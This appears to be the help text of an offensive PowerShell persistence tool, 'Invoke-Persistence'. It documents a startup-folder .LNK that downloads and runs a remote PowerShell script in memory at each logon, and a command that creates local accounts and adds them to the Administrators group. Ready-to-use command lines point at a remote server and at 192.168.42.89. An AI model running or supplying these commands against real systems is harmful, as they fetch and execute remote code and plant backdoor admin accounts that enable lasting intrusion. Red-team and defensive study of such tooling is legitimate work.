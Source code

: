  ### Invoke-Persistence HELP ###
 -------------------------------
 Available Invoke-Persistence Commands:
 --------------------------------------
 /-----------------------------------------------------------------------------/
 | -StartupLnk [-Clean] [-PsFileUrl] File_url                                  |
 | --------------------------------------------------------------------------- |
 |                                                                             |
 |  [*] Description: Drops a .LNK file in the current user's startup           |
 |      directory that executes a remotely hosted PowerShell script in         |
 |      memory (Net.WebClient DownloadString).                                 |
 |                                                                             |
 |  [*] Mitre ATT&CK Ref: T1060 (Registry Run Keys / Startup Folder)           |
 |     (https://attack.mitre.org/techniques/T1060/)                            |
 |                                                                             |
 |  [*] Usage: Invoke-Persistence -StartupLnk https://yourserver/script.ps1    |
 |  [*] Usage: Invoke-Persistence -StartupLnk -Clean                           |
 |      Removes startup lnk.                                                   |
 /-----------------------------------------------------------------------------/

 /-----------------------------------------------------------------------------/
 | -Adduser [-Username] username [-Password] password [-Admin] [-Delete]       |
 | --------------------------------------------------------------------------- |
 |                                                                             |
 |  [*] Description: Adds a local user. If the [-Admin] parameter is           |
 |      specified, adds an existing user to the local Administrators           |
 |      group. Use the [-Delete] param to delete a user.                       |
 |      (Requires Elevation)                                                   |
 |                                                                             |
 |  [*] Usage: Invoke-Persistence -adduser -username user2 -password "p@a55wrd"|
 |  [*] Usage: Invoke-Persistence -adduser -username user2 -admin              |
 |  [*] Usage: Invoke-Persistence -adduser -username user2 -delete             |
 /-----------------------------------------------------------------------------/
```

```PS> Invoke-Persistence -StartupLnk -PsFileUrl http://192.168.42.89/script.ps1```

```
PS> Invoke-Persistence -StartupLnk -PsFileUrl http://192.168.42.89/script.ps1
